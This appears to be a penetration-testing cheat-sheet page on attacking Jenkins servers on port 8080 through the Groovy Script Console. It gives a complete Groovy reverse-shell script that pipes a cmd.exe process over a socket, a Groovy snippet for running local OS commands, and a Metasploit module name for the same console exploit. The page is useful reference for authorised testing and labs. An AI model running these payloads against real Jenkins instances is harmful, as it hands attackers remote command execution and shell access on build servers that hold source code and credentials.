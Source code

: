 # 8080 - Jenkins

Jenkins is a free and open source automation server. It helps automate the parts of software development related to building, testing, and deploying, facilitating continuous integration and continuous delivery.

## Enumeration

Jenkins run by default on port 8080

## Exploitation

### Groovy Script

Jenkins features a nice Groovy script console which allows one to run arbitrary Groovy scripts within the Jenkins master runtime or in the runtime on agents.

#### Reverse Shell from the web interface

At Jenkins Dashboard go to Manage Jenkins and then select Script Console, run the following code for reverse shell:

```text
String host="localhost";
int port=8044;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

#### Executing commands local:

```text
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = 'ipconfig'.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println "out> $sout err> $serr"
```

#### Metasploit

uses the Jenkins-CI Groovy script console to execute OS commands using Java:

`use exploit/multi/http/jenkins_script_console`

\`\`

